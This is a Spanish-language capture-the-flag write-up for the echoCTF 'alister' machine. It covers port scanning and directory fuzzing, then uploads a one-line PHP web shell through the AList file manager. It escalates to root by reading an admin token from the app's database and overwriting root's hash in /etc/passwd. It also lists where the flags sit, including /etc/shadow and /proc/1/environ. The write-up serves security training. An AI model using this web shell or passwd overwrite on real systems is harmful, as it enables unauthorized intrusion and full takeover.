---
tags:
  - Writable /etc/passwd
---

# Alister <!-- omit from toc -->


Write-up de la máquina alister de [echoCTF](https://echoCTF.red).


## Índice <!-- omit from toc -->


- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios](#servicios)
    - [http - 1337](#http---1337)
    - [http - 52444](#http---52444)
- [Explotación](#explotación)
  - [RCE Web Shell](#rce-web-shell)
- [Post Explotación](#post-explotación)
  - [Escalación de privilegios](#escalación-de-privilegios)
- [Ubicación de banderas](#ubicación-de-banderas)


## Introducción


### Estadísticas


| Característica | Descripción |
|---|---|
| Nombre | [alister](https://echoctf.red/target/149) |
| Dificultad | Intermediate |
| Banderas | 5 (other, 2: system, env, root) |
| Puntos | 5,300  |
| Descripción/Pistas | A combination of a listing application and bad configurations. <br> Are you A-listed? Well not to worry, this has nothing to do with that... |


## Reconocimiento


### Escaneo de host


#### Escaneo completo de puertos


```bash
└─$ sudo nmap -sS -p- -v -open -n -Pn -oG nmap/all_ports_ss $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 21:27 EDT
Initiating SYN Stealth Scan at 21:27
Scanning 10.0.160.56 [65535 ports]
Discovered open port 5244/tcp on 10.0.160.56
Discovered open port 1337/tcp on 10.0.160.56
Completed SYN Stealth Scan at 21:28, 46.99s elapsed (65535 total ports)
Nmap scan report for 10.0.160.56
Host is up (0.15s latency).
Not shown: 65465 closed tcp ports (reset), 68 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
1337/tcp open  waste
5244/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 47.06 seconds
           Raw packets sent: 79748 (3.509MB) | Rcvd: 75357 (3.014MB)
```


#### Escaneo específico


```bash
└─$ nmap -sCV -p 1337,5244 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-31 21:30 EDT
Nmap scan report for 10.0.160.56
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
1337/tcp open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0
5244/tcp open  unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Content-Type: text/html
|     Date: Fri, 01 Sep 2023 01:30:19 GMT
|     <!DOCTYPE html>
|     <html lang="en" translate="no">
|     <head>
|     <script src="https://polyfill.io/v3/polyfill.min.js?features=String.prototype.replaceAll"></script>
|     <meta charset="utf-8" >
|     <meta name="viewport" content="width=device-width, initial-scale=1" >
|     <meta name="referrer" content="same-origin" >
|     <meta name="generator" content="AList V3" >
|     <meta name="theme-color" content="#000000" >
|     <meta name="google" content="notranslate" >
|     <script src="https://g.alicdn.com/IMM/office-js/1.1.5/aliyun-web-office-sdk.min.js"
|     async
|     ></script>
|     <link rel="shortcut icon"
|     type="image/ico"
|     href="https://cdn.jsdelivr.net/gh/alist-org/logo@main/logo.svg"
|     <title>AList</title>
|     <script>
|     window.ALIST = {
|     cdn: '',
|     monaco_cdn: undefin
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Content-Type: text/html
|     Date: Fri, 01 Sep 2023 01:30:20 GMT
|     <!DOCTYPE html>
|     <html lang="en" translate="no">
|     <head>
|     <script src="https://polyfill.io/v3/polyfill.min.js?features=String.prototype.replaceAll"></script>
|     <meta charset="utf-8" >
|     <meta name="viewport" content="width=device-width, initial-scale=1" >
|     <meta name="referrer" content="same-origin" >
|     <meta name="generator" content="AList V3" >
|     <meta name="theme-color" content="#000000" >
|     <meta name="google" content="notranslate" >
|     <script src="https://g.alicdn.com/IMM/office-js/1.1.5/aliyun-web-office-sdk.min.js"
|     async
|     ></script>
|     <link rel="shortcut icon"
|     type="image/ico"
|     href="https://cdn.jsdelivr.net/gh/alist-org/logo@main/logo.svg"
|     <title>AList</title>
|     <script>
|     window.ALIST = {
|     cdn: '',
|_    monaco_cdn: undefin
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5244-TCP:V=7.93%I=7%D=8/31%Time=64F13EA4%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,E9C,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x
SF:20text/html\r\nDate:\x20Fri,\x2001\x20Sep\x202023\x2001:30:19\x20GMT\r\
SF:n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\"\x20translate=\"no\">\n\x2
SF:0\x20<head>\n\x20\x20\x20\x20<script\x20src=\"https://polyfill\.io/v3/p
SF:olyfill\.min\.js\?features=String\.prototype\.replaceAll\"></script>\n\
SF:x20\x20\x20\x20<meta\x20charset=\"utf-8\"\x20>\n\x20\x20\x20\x20<meta\x
SF:20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1
SF:\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"referrer\"\x20content=\"same-o
SF:rigin\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"generator\"\x20content=\"
SF:AList\x20V3\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"theme-color\"\x20co
SF:ntent=\"#000000\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"google\"\x20con
SF:tent=\"notranslate\"\x20>\n\x20\x20\x20\x20<script\x20\x20\x20\x20\x20\
SF:x20\x20src=\"https://g\.alicdn\.com/IMM/office-js/1\.1\.5/aliyun-web-of
SF:fice-sdk\.min\.js\"\n\x20\x20\x20\x20\x20\x20async\n\x20\x20\x20\x20></
SF:script>\n\x20\x20\x20\x20<link\x20\x20\x20\x20\x20\x20\x20rel=\"shortcu
SF:t\x20icon\"\n\x20\x20\x20\x20\x20\x20type=\"image/ico\"\n\x20\x20\x20\x
SF:20\x20\x20href=\"https://cdn\.jsdelivr\.net/gh/alist-org/logo@main/logo
SF:\.svg\"\n\x20\x20\x20\x20>\n\x20\x20\x20\x20<title>AList</title>\n\x20\
SF:x20\x20\x20<script>\n\x20\x20\x20\x20\x20\x20window\.ALIST\x20=\x20{\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20cdn:\x20'',\n\x20\x20\x20\x20\x20\x20\x2
SF:0\x20monaco_cdn:\x20undefin")%r(HTTPOptions,E9C,"HTTP/1\.0\x20200\x20OK
SF:\r\nContent-Type:\x20text/html\r\nDate:\x20Fri,\x2001\x20Sep\x202023\x2
SF:001:30:20\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\"\x20tra
SF:nslate=\"no\">\n\x20\x20<head>\n\x20\x20\x20\x20<script\x20src=\"https:
SF://polyfill\.io/v3/polyfill\.min\.js\?features=String\.prototype\.replac
SF:eAll\"></script>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\"\x20>\n\x20
SF:\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,
SF:\x20initial-scale=1\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"referrer\"\
SF:x20content=\"same-origin\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"genera
SF:tor\"\x20content=\"AList\x20V3\"\x20>\n\x20\x20\x20\x20<meta\x20name=\"
SF:theme-color\"\x20content=\"#000000\"\x20>\n\x20\x20\x20\x20<meta\x20nam
SF:e=\"google\"\x20content=\"notranslate\"\x20>\n\x20\x20\x20\x20<script\x
SF:20\x20\x20\x20\x20\x20\x20src=\"https://g\.alicdn\.com/IMM/office-js/1\
SF:.1\.5/aliyun-web-office-sdk\.min\.js\"\n\x20\x20\x20\x20\x20\x20async\n
SF:\x20\x20\x20\x20></script>\n\x20\x20\x20\x20<link\x20\x20\x20\x20\x20\x
SF:20\x20rel=\"shortcut\x20icon\"\n\x20\x20\x20\x20\x20\x20type=\"image/ic
SF:o\"\n\x20\x20\x20\x20\x20\x20href=\"https://cdn\.jsdelivr\.net/gh/alist
SF:-org/logo@main/logo\.svg\"\n\x20\x20\x20\x20>\n\x20\x20\x20\x20<title>A
SF:List</title>\n\x20\x20\x20\x20<script>\n\x20\x20\x20\x20\x20\x20window\
SF:.ALIST\x20=\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20cdn:\x20'',\n\x20\x20
SF:\x20\x20\x20\x20\x20\x20monaco_cdn:\x20undefin");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.71 seconds
```


## Enumeración


### Servicios


#### http - 1337


Dados los resultados de `nmap` se puede identificar que el puerto ofrece un servidor HTTP por lo que al navegar al sitio se pueden observar varias cosas. El sitio está interpretando PHP (deducido por como está devolviendo la información `Array(...)`) y se encuentra listando el contenido de un directorio.



Para obtener más información se ejecutó la herramienta `ffuf` para buscar archivos o directorios disponibles, encontrando los siguientes:

```bash
└─$ ffuf -ic -c -u "http://10.0.160.56:1337/FUZZ" -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.160.56:1337/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 161, Words: 49, Lines: 13, Duration: 141ms]
    * FUZZ:

[Status: 200, Size: 161, Words: 49, Lines: 13, Duration: 141ms]
    * FUZZ: index.php

[Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 140ms]
    * FUZZ: public

[Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 143ms]
    * FUZZ: temp

:: Progress: [4614/4614] :: Job [1/1] :: 284 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```


#### http - 52444


Por otro lado, en el otro puerto disponible se encuentra la aplicación [AList](https://github.com/alist-org) que permite crear, modificar, eliminar archivos y directorios.



Se identificó que la página del puerto `1337` refleja el contenido de los archivos que se encuentren en la carpeta `public` de la aplicación. Como ejemplo se creó un archivo de prueba.




## Explotación


### RCE Web Shell


Al identificar el directorio `public` en el puerto 1337 y ver que se estaban reflejando los archivos, se utilizó una web shell en php para poder lograr la ejecución de código:

```php title="evil.php"
<?php system($_GET["cmd"]);?>
```



Logrando así ejecutar comandos en el servidor.




## Post Explotación


### Escalación de privilegios


Después de obtener una reverse shell se identificó que los archivos creados por la aplicación Alist, son creados por el usuario `root` por lo que hace que dicha aplicación se encuentre ejecutándose con privilegios altos.



Además, se identificó un archivo usado como base de datos de la aplicación, al ejecutar el comando `strings data.db` se pudo visualizar su contenido.



Encontrando un token de la aplicación válido para autenticarse como administrador de la aplicación web. Se verificó la autenticidad dado que al refrescar la página principal se cambió el mensaje inferior de `Login` a `Manage`.



Dentro de la ruta de gestión es posible dar de alta un nuevo lugar de almacenamiento.



Específicando la ruta local del sistema, pudiendo indicar que fuese `/etc`.



Dado que la aplicación cuenta con permisos de `root` se podría, eventualmente, descargar y modificar el archivo `passwd` añadiendo un hash en el campo del usuario `root` y nuevamente subiendo el archivo modificado.

```bash
└─$ catn passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]

└─$ openssl passwd -1 -salt srrequiem srrequiem
$1$srrequie$ynKr1xfKTHO0yDUd7aWxq/

└─$ nano passwd

└─$ catn passwd
root:$1$srrequie$ynKr1xfKTHO0yDUd7aWxq/:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
```



Para posteriormente autenticarse como usuario `root` con la contraseña asignada.




## Ubicación de banderas


1. (other: 100 pts) `/var/www/html/public/ETSCTF.html`.
2. (system: 1300 pts) `/etc/passwd`.
3. (system: 1300 pts) `/etc/shadow`.
4. (env: 900 pts) `strings /proc/1/environ | grep ETSCTF_`.
5.  (root: 1500 pts) `/root`

